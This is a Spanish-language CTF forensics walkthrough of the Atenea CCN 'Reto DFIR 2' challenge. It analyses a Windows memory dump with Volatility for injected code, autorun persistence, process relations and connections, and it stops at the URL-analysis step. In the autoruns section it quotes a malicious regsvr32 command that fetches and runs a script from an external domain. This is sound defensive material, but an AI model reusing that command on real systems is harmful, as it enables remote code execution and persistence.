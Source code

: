 ```yaml
---
title: Reto DFIR 2 - Atenea CCN
date: 2025-01-15 19:12:49 +0100
categories: [Labs & CTF, Walkthrough, DFIR]
tags: [dfir, forensics, malware analysis, memory analysis, volatility]
---
```


## Recursos

[Enlace del fichero usado (Google Drive)](https://drive.google.com/file/d/1OgjS9MtPklkL-jeiZcoj9SLAs8mFcl41/view?usp=sharing)

## Contexto

### Información

Sospechamos que el volcado de memoria adjunto se corresponde con una máquina que ha
sido infectada de forma persistente por algún tipo de malware, posiblemente un dropper.
Nos gustaría identificar el dominio dañino utilizado por el mismo.

## Análisis de procesos

![Listado de procesos](/assets/img/posts/atenea_dfir_2/20250115_191249_2025-01-15_20-12.png)
_Aquí podemos ver algunos procesos interesantes y algunas anomalías que iremos viendo más adelante_

### Identificando posibles inyecciones en los comandos

En volatility disponemos de un módulo para intentar detectar inyecciónes o comportamientos anómalos en los procesos de windows.

![Análisis de anomalías](/assets/img/posts/atenea_dfir_2/20250115_192639_Peek_2025-01-15_20-26.gif)
_Podemos ver que encuentra posibles anomalías en los dos prodesos de Internet Explorer y en csrss_

### Análisis

En el proceso csrss.exe (PID 592):

-> Tiene una región de memoria con permisos PAGE_EXECUTE_READWRITE (que es sospechoso para csrss.exe)

-> Contiene código ensamblador que parece shellcode, con instrucciones como OUT y STD que son inusuales en código legítimo

En dos procesos de IEXPLORE.EXE (PIDs 1624 y 3728):

-> Ambos tienen regiones idénticas en la dirección 0x5fff0000
-> También con permisos PAGE_EXECUTE_READWRITE
-> Contienen la firma "dtrR" seguida de un patrón de bytes similar
-> El código ensamblador incluye un CALL FAR que podría ser usado para ejecución de código malicioso

## Análisis de autoruns

### Plugin autorun

[Github](https://github.com/Telindus-CSIRT/volatility3-autoruns/blob/main/autorun.py)

Una vez importado este plugin nos permite ver que ejecutables están configurados para ejecutarse al inicio del sistema lo que es normal en la forma de generar persistencia en un malware.

![Análisis de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193253_2025-01-15_20-32.png

### Análisis

La entrada más sospechosa es 

regsvr32 /u /s /i:http://wiki-read.com/info.txt scrobj.dll

Este comando en el autoruns es muy sospechoso porque:

-> Usa regsvr32 para desregistrar (/u) scrobj.dll
-> Intenta cargar un script desde una URL externa (http://wiki-read.com/info.txt)
-> Se ejecuta silenciosamente (/s)
-> Está configurado para ejecutarse automáticamente al inicio del sistema

![Análisis adicional de autoruns](/assets/img/posts/atenea_dfir_2/20250115_193539_2025-01-15_20-35.png)

regsvr32 /s /n /i:U shell32

Este comando aparece dos veces como "_nltide_2" en RunOnce para diferentes usuarios.

Hasta ahora el posible vector inicial de infección parece ser la descarga y ejecución del script malicioso desde wiki-read.com mediante regsvr32, que es una técnica conocida de "Living off the Land" para evadir defensas.

### Correlación

Esto encaja con el hallazgo anterior:

-> El script malicioso probablemente fue descargado a través de Internet Explorer

-> Inyectó código en csrss.exe (un proceso crítico del sistema)

-> Los dos procesos de IE con la misma firma indican que el malware se replicó

## Relación con los procesos

![Árbol de procesos](/assets/img/posts/atenea_dfir_2/20250115_194308_2025-01-15_20-43.png)

### Relación

Los procesos de Internet Explorer sospechosos (PIDs 1624 y 3728) son hijos de explorer.exe (PID 1868)

-> Esto es normal ya que IE se suele lanzar desde el explorador
-> Pero recordemos que ambos tienen la misma región de memoria maliciosa

Hay varios shells de cmd.exe abiertos (PIDs 3468, 300, 1080) también como hijos de explorer.exe

-> Esto podría indicar actividad de comando y control
-> Especialmente sospechoso tener múltiples shells abiertos

Hay dos instancias de explorer.exe (PIDs 1868 y 1608)

-> Una es hija de winlogon.exe (normal)
-> La otra (PID 1608) parece huérfana (su padre PID 1552 no existe)
-> Esta segunda instancia podría ser una persistencia del malware

El proceso regedit.exe (PID 2664) podría indicar modificaciones al registro

-> Esto coincide con las entradas de autoruns que encontramos antes

### Línea temporal

La línea temporal sugiere:

- 23:47: Se inicia el primer IE sospechoso (PID 1624)
- 23:49: Se modifican las entradas de autoruns (según el output anterior)
- 23:52: Se inicia el segundo IE sospechoso (PID 3728)

## Análisis de conexiónes

![Análisis de conexiones](/assets/img/posts/atenea_dfir_2/20250115_195117_2025-01-15_20-50.png)

### Análisis

Los procesos de IE sospechosos tienen actividad de red:

-> PID 1624 usando UDP puerto 1031 en 127.0.0.1
-> PID 3728 usando UDP puerto 1035 en 127.0.0.1
-> Ambos procesos usan conexiones UDP locales, lo que es inusual para IE

Cronología interesante:

-> 23:47:13: Primera conexión del IE sospechoso (PID 1624)
-> 23:52:15: Segunda conexión del IE sospechoso (PID 3728)
-> Coincide con la timeline que vimos en el pstree

La comunicación UDP en localhost entre los procesos de IE es especialmente sospechosa y podría indicar:

- Comunicación entre componentes del malware
- Túnel C2 (Command & Control)
- Evasión de firewalls

## Análisis de URLs en memoria

### Datos del proceso 1624

Dado el timeline que hemos visto:

-> PID 1624 (primer IE) se inició a las 23:47:12
-> Las modificaciones del registro ocurrieron a las 23:49
-> PID 3728 (segundo IE) se inició después a las 23:52:15

El PID 1624 parece ser la infección inicial que desencadenó todo, así que es el mejor candidato para buscar la URL maliciosa.

![Volcado de memoria del proceso](/assets/img/posts/atenea_dfir_2/20250115_195422_2025-01-15_20-54.png)
_Lo volcamos en un txt por si es mucho contenido_

![Análisis de URLs en memoria](/assets/img/posts/atenea_dfir_2/20250115_200501_2025-01-15_21-04.png)